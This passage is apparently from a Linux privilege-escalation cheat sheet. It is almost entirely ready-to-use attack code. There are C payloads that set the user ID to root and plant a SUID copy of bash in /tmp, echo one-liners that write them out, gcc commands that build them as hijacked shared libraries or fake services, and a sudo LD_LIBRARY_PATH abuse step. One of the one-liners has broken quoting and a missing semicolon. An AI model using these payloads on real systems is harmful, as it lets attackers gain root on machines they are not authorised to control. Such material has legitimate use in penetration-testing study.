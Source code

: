 ```C
	setresuid(0,0,0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "#include <stdio.h>\n#include <stdlib.h>\nstatic void hijack() __attribute__((constructor))\nvoid hijack() {\nunsetenv("LD_LIBRARY_PATH");\nsetresuid(0,0,0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > ld_library_path_exploit.c
```
- Compile it:
```bash
gcc -shared -fPIC -o ./<picked_library_name> ld_library_path_exploit.c
```
- Run sudo program with `LD_LIBRARY_PATH`:
```bash
sudo LD_LIBRARY_PATH=. <sudo_program>
```

## Compiling a shared library running bash shell
- Use `strace` to search for not found shared libraries in the application running by root.
- `bash_shared.c`:
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "#include <stdio.h>\n#include <stdlib.h>\nstatic void inject() __attribute__((constructor));\nvoid inject() {\nsetuid(0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > bash_shared.c
```
- Compile it to the .so shared library file:
```bash
gcc -shared -fPIC -o <library_name>.so bash_shared.c
```

## Compiling a service running bash shell
- `bash_service.c`:
```C
int main() {
	setuid(0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "int main() {\nsetuid(0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > bash_service.c
```
- Compile it to the service file:
```bash
gcc -o <service_name> bash_service.c
```
